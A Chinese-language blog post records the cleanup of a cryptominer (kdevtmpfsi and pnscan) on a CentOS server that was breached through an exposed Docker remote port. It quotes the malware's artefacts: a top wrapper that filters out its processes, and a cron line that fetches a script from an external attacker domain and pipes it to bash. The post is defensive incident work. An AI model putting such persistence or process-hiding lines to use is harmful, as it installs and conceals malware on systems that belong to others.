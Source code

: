 ```yaml
---
title: pnscan挖矿病毒排查过程记录
date: 2022/6/8 20:00:00
tags: 
  - docker
  - gitlab
  - ssh
  - hexo
categories: 
  - Linux
  - 网络安全
---
```


> 记一次服务器被挖矿病毒攻击问题排查

- 原因：因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒kdevtmpfsi，pnscan

- 现象：CPU占用拉满，定时任务向6379端口持续发送信息

1. 首先想到使用top命令排查进程，发现top无法使用，显示`permission denied` ，

   ```shell
   [root@VM-16-4-centos bin]# top
   -bash: /usr/bin/top: Permission denied
   ```

2. 查询后获悉`top` 命令被篡改为如下

   ```shell
   [root@VM-16-4-centos bin]# cat /usr/bin/top
   #!/bin/bash
   top.lanigiro $@ | grep -v 'ddns\|scan'
   ```

3. 拷贝原有top脚本，通过ftp传输，发现无法覆盖`top` 文件，使用 `lsattr` 命令查看文件属性，果然为被设置为了 `-i`  不可修改：

   ```shell
   [root@VM-16-4-centos bin]# lsattr /usr/bin/top
   ----i--------e-- /usr/bin/top
   ```

4. 打算使用`chattr` 命令删除`-i` 参数，发现`chattr` 命令不可用，也被删除掉了

   ```shell
   [root@VM-16-4-centos bin]# chattr
   -bash: chattr: command not found
   ```

5. 只能重新安装`chattr` 命令，查看安装包版本，先删除再安装`e2fsprogs` 包

   ```shell
   [root@VM-16-4-centos bin]# rpm -qa|grep e2fsprogs
   e2fsprogs-libs-1.42.9-19.el7.x86_64
   e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum remove e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum install e2fsprogs-1.42.9-19.el7.x86_64
   ```

6. 重装后`chattr` 命令终于可用，修改文件属性，使用FTP工具传输覆盖`top` 命令，仍然无法使用top命令，于是改安装`htop` 命令

   ```shell
   yum -y install htop
   ```

7. 使用`htop` 命令查看，发现挖矿病毒，继续排查

![1654084303957](../blog-assets/pnscan病毒排查/1654084303957.png)

8. 查看定时任务，并停止，发现cron脚本也被感染无法更改（心肺停止...）

   ```shell
   [root@VM-16-4-centos bin]# crontab -l
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   [root@VM-16-4-centos bin]# crontab -e
   
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   ```

9. 修改`cron` 文件属性，修改后删除定时任务，再使用`htop` 命令查看，CPU占用明显降低，仅剩  **pnscan** 病毒

   ```shell
   [root@VM-16-4-centos bin]# chattr -iae /var/spool/cron/root 
   [root@VM-16-4-centos bin]# lsattr /var/spool/cron/
   -------------e-- /var/spool/cron/root
   [root@VM-16-4-centos bin]# crontab -e
   crontab: installing new crontab
   
   ```

10. 但修改后仍然无法删除定时任务脚本只能编辑，原来可能存在隐藏文件，`lsattr -a` 命令查看果然有，同样`chattr` 修改对应文件属性

    ```shell
    [root@VM-12-14-centos cron]# lsattr -a
    ----ia-------e-- ./.
    -------------e-- ./..
    ---------------- ./root
    [root@VM-12-14-centos cron]# chattr -iae .
    [root@VM-12-14-centos cron]# chattr -iae ..
    [root@VM-12-14-centos cron]# lsattr -a
    ---------------- ./.
    ---------------- ./..
    ----------------./root
    ```

11. 去除pnscan，用htop命令查看 pnscan进程位置，删除对应文件，至此pnscan病毒搞定

    ```shell
    [root@VM-12-14-centos bin]# rm -f pnscan
    ```

12. 终于发现被攻击原因，因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒，具体原因分析如下：

- docker开放2375端口用于远程管理容器，而容器本身可以挂载服务器目录；
- 因此攻击者通过2375端口，拉取做好的镜像，启动容器时挂载`~/.ssh` 目录 在 `authorized_keys` 中添加了攻击者的公钥，至此，攻击者获得服务器控制权，进而执行病毒脚本。
  
- 参考：https://www.techug.com/post/do-a-hacker-invade-a-server.html

> 后记：外网环境应通过`TLS`方式开启docker远程端口访问，配置细节可参考 [docker环境及常用镜像安装](/2022/06/06/docker环境安装/)  